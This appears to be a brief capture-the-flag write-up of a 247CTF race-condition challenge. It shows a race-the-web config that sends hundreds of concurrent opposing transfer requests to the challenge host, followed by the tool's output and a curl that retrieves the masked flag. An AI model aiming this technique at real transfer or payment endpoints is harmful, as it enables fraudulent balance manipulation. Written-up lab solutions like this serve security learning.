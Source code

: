 exploit race condition

2 type request send in multi process
occure the race condition

use the tool for race condition

https://github.com/TheHackerDev/race-the-web

this tool is are so nice and fast

```
->$ race-the-web config.toml
```
this tool requre the config.toml in argument

request type1: ?to=1&from=2&amount=50
request type2: ?to=2&from=1&amount=50

config.toml
```
# Specify the first request
[[requests]]
    # Use the GET request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50"
    # Set the request body.
    # body = "body=text"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Follow redirects
    #redirects = true

# Specify the second request
[[requests]]
    # Use the POST request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50"
    # Set the request body.
    #body = "val=1000"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Do not follow redirects
    #redirects = false

```

run 
```
->$ race-the-web config.toml 
Requests begin.
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50
```

finish

```
->$ curl https://e634a9e3f05457b9.247ctf.com/?flag\&from=2
247CTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
